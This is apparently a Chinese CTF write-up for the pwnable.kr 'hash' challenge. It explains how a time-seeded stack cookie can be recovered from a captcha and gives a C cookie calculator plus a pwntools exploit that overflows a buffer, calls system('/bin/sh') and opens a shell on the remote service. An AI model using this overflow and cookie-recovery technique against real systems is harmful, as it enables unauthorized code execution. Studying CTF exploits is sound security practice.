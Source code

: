 ```c
         + v4
         + *(_DWORD *)&v3[8]
         - *(_DWORD *)&v3[12]
         + *(_DWORD *)&v3[4]
         + *(_DWORD *)&v3[20];
  v1 = *MK_FP(__GS__, 20) ^ v4;
  return result;
}
```

在这个函数中，栈cookie被用来生成了一个hash值，而这个hash值会在交互中给出，结合题目中提到的提示，bin服务和pwnable.kr运行在同一台机器上，也就是说时间相同，这样就可以反算出栈cookie，从而get shell了。

大概思路清晰之后，开始完成exp，首先是用c算出栈cookie

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) 
{
    int m = atoi(argv[2]);
    int rands[8];
    srand(atoi(argv[1]));
    for (int i = 0; i <= 7; i++) rands[i] = rand();
    m -= (rands[1] + rands[2] - rands[3] + rands[4] + rands[5] - rands[6] + rands[7]);
    printf("%x\n", m);
    return 0;
}
```

完成cookie的计算，分析到这里就可以写exp了，主要思路是溢出掉v3，用验证码和时间计算出栈cookie，最后调用system("/bin/sh")

```py
import os
import time
from pwn import *

p = remote("pwnable.kr", 9002)
t = int(time.time())
print p.recvuntil("captcha")
captcha = p.recvline()
captchapos = captcha.find(' : ')+len(' : ')
captcha = captcha[captchapos:].strip()
p.sendline(captcha)
print p.recvline()
print p.recvline()
cmd = "./hash %s %s" % (t, captcha)
cookie = "0x" + os.popen(cmd).read().strip()

payload = 'A' * 512 # 512 byte v3
payload += p32(int(cookie, 16))
payload += 'A' * 12
payload += p32(0x08049187)  # system
payload += p32(0x0804B0E0 + 537*4/3)  # .bss => address of /bin/sh
payload = b64e(payload)
payload += "/bin/sh\0"
p.sendline(payload)
p.interactive()
```

